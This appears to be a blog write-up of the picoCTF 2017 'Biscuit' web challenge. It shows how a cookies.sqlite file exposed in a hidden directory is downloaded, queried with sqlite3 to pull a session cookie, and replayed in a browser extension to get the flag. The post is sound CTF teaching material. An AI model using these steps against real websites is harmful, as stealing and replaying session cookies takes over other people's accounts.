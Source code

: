 ```yaml
---
layout:     post
title:      "PicoCTF - Biscuit"
subtitle:   "Write-Ups"
date:       2017-04-15 0:00:00
author:     "W3ndige"
permalink: /:title/
category: PicoCTF 2017
---
```


<p>Your friend has a personal website. Fortunately for you, he is a bit of a noob when it comes to hosting a website. Can you find out what he is hiding? </p>

![Website](/img/picoctf/biscuit-web.png){:class="img-responsive center-block"}

<p>Let's view the source. </p>

{% highlight html %}

<html>

<!-- Storing stuff in the same directory as your web server doesn't seem like a good idea -->
<!-- Thankfully, we use a hidden one that is super PRIVATE, to protect our cookies.sqlite file -->
  <style>
    body{
    	background-image: url("private/image.png");
    }
  </style>
  <body >
    <div style='background:white;margin: auto;border: 1px solid red;width: 600px; margin-top: 20%;' >
      <center>
        <form style="font-size: 40px; ">
        Access Denied</form>
      </center>
    </div>
  </body>
</html>
{% endhighlight %}

<p>That's some pretty obvious stuff here. Let's jump to the <b>private</b> directory, and download the <b>cookies.sqlite</b>. </p>

{% highlight html %}
http://shell2017.picoctf.com:30027/private/cookies.sqlite
{% endhighlight %}

<p>Now we have to try and extract the cookies from the file. </p>

{% highlight bash %}
w3ndige@W3ndige ~/Pobrane> sqlite3 cookies.sqlite
SQLite version 3.18.0 2017-03-28 18:48:43
Enter ".help" for usage hints.
sqlite>
{% endhighlight %}

<p>Great! It's working. Now we can view the tables existing in this database, and then extract the password. </p>

{% highlight sql %}
sqlite> SELECT * FROM sqlite_master WHERE type='table';
table|moz_cookies|moz_cookies|2|CREATE TABLE moz_cookies (id INTEGER PRIMARY KEY, baseDomain TEXT, appId INTEGER DEFAULT 0, inBrowserElement INTEGER DEFAULT 0, name TEXT, value TEXT, host TEXT, path TEXT, expiry INTEGER, lastAccessed INTEGER, creationTime INTEGER, isSecure INTEGER, isHttpOnly INTEGER, CONSTRAINT moz_uniqueid UNIQUE (name, host, path, appId, inBrowserElement))
sqlite> SELECT * FROM moz_cookies;
1|localhost|0|0|ID|F3MAqpWxIvESiUNLHsflVd|localhost|/|1489365457|1489279130600290|1489279057101857|0|0
sqlite>
{% endhighlight %}

<p>One last step would be editing our cookies using <a href="http://www.editthiscookie.com/">EditThisCookie</a> extension. </p>

![EditThisCookie](/img/picoctf/biscuit-edit.png){:class="img-responsive center-block"}

<p>And lastly reload the page. </p>

![Flag](/img/picoctf/biscuit-flag.png){:class="img-responsive center-block"}

<p>And we have another flag to collect. </p>
